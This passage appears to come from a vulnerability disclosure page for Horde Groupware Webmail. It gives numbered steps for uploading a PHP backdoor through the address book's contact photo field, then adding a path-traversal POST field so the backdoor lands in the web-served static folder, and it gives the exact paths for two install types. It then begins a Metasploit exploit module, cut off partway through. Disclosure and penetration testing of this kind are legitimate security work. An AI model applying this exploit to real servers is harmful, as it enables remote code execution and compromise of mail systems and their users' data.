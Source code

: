 **Exploit**<br>
1) Log into the Horde Groupware Webmail as normal user.<br>
2) Access the “New Contact” view via “Address Book” in the menu.<br>
3) Create a PHP backdoor file on your disk.<br>
4) Fill the mandatory fields submitting the PHP backdoor in the “Photo” file field. The file name is irrelevant. <br>

<img src="https://ssd-disclosure.com/wp-content/uploads/2019/03/Horde-Groupware-Vulnerability-2.png">

5) Click the Add button and intercept the outgoing HTTP request using Burp Suite. You should see the POST data including the uploaded PHP backdoor.
<img src="https://ssd-disclosure.com/wp-content/uploads/2019/03/Horde-Groupware-Vulnerability-3.png">

6) Add the new POST field “object[photo][img][file]” with the path to traverse the temporary folder and save the PHP backdoor under the “static/” folder. Two path traversals have been found working in different installations:<br>
A. ../usr/share/horde/static/bd.php , working with Horde installed with “apt-get”<br>
B. ../var/www/html/horde/static/bd.php”, working with Horde manually installed with PEAR<br>

<img src="https://ssd-disclosure.com/wp-content/uploads/2019/03/Horde-Groupware-Vulnerability-4.png"><br>

7) Forward the request to the target server.<br>
8) Use the uploaded PHP file to execute arbitrary commands.<br>

<img src="https://ssd-disclosure.com/wp-content/uploads/2019/03/Horde-Groupware-Vulnerability-5-1.png">

**Exploit**<br>
```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::FileDropper
  def initialize(info = {})
    super(update_info(
      info,
      'Name'            => 'Horde Turba File Upload Vulnerability',
      'Description'     => %q{
          Horde Groupware Webmail contains a flaw that allows an authenticated remote
          attacker to execute arbitrary PHP code. The exploitation requires the Turba
          subcomponent to be installed. This module was tested on versions 5.2.22 and 5.2.17.
        },
      'License'         => MSF_LICENSE,
      'Author'          =>
        [
          'Ratiosec', # Vulnerability Disclosure and module
        ],
      'References'      =>
        [
        ],
      'DisclosureDate'  => 'Aug 17 2017',
      'Platform'        => 'php',
      'Arch'            => ARCH_PHP,
      'Targets'         => [
    ['Automatic', { }],
    ['PEAR', { 'path': '/var/www/html/'}],
    ['Ubuntu', { 'path': '/usr/share/horde/' }],
    ],
      'DefaultTarget'   => 0
    ))
    register_options(
```